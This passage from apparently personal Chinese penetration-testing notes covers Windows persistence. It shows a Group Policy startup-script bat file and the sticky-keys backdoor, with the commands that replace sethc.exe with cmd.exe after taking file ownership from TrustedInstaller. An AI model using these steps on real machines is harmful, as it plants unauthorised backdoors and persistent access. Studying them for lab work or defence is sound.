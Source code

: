 （整个命令的意思是关闭命令回显，运行systeminfo命令并把输出结果保存到txt文件中。）

改名为1.bat，放到C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup下

win+R->gpedit.msc打开本地组策略编辑器

![image-20231011163151431](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20231011163151431.png)

点击启动，右键添加，选择C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup下的1.bat，应用

重启，

C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup下多了一个内容为主机信息的txt文件

即成功实现开机自启动

### shift后门

正常情况下按5次shift键会执行询问是否执行粘滞键的弹窗，现在我们要更改粘滞键的功能为执行cmd命令（即我们的木马程序，在此以cmd演示）

找到C:/windows/system32/sethc.exe，默认是TrustInstaller有完全控制权限（比administrator权限更高，最高权限），所以需要修改权限

属性->安全->高级->更改

![image-20231012105639757](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20231012105639757.png)

->高级

![image-20231012105738380](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20231012105738380.png)

->立即查找->双击administrator（有s的是组，没有s是用户）

![image-20231012105846054](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20231012105846054.png)

然后确认，应用

然后就可以更改权限了

![image-20231012110126547](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20231012110126547.png)

编辑->打勾

![image-20231012110209142](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20231012110209142.png)

然后打开cmd

```
#这里是测试，我们需要备份一下
move C:\Windows\System32\sethc.exe C:\Windows\System32\sethc.exe.bak

#把粘滞键的程序更改为cmd.exe程序
copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

然后按5次shift，发现打开了命令提示符界面，目的达成

### 影子用户权限维持
